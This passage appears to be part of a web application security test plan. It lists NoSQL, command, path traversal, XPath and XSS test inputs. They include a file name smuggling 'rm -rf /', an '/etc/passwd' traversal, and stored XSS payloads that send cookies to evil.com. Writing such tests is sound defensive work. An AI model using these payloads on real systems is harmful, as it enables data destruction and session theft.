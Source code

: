 **Expected Result**: All attempts blocked by Pydantic validation

### NoSQL Injection (if applicable)
```bash
# MongoDB injection patterns:
{
  "email": {"$ne": null},
  "password": {"$ne": null}
}
```

### Command Injection
```bash
# Test file operations:
filename: test.csv; rm -rf /
filename: ../../../etc/passwd
filename: test$(whoami).csv
```

### XPath/XML Injection
```bash
# XML export tests:
<user><name>admin</name><role>admin' or '1'='1</role></user>
```

---

## 5. Cross-Site Scripting (XSS) Testing

### Reflected XSS
```javascript
// Test search and URL parameters:
/api/search?q=<script>alert('XSS')</script>
/api/articles?title=<img src=x onerror=alert('XSS')>
/profile?name=<svg/onload=alert('XSS')>
```

### Stored XSS
```javascript
// Test user input storage:
POST /api/auth/register
{
  "full_name": "<script>document.location='http://evil.com?c='+document.cookie</script>",
  "email": "test@example.com"
}

POST /api/preferences
{
  "display_name": "<img src=x onerror=fetch('http://evil.com?c='+document.cookie)>"
}
```
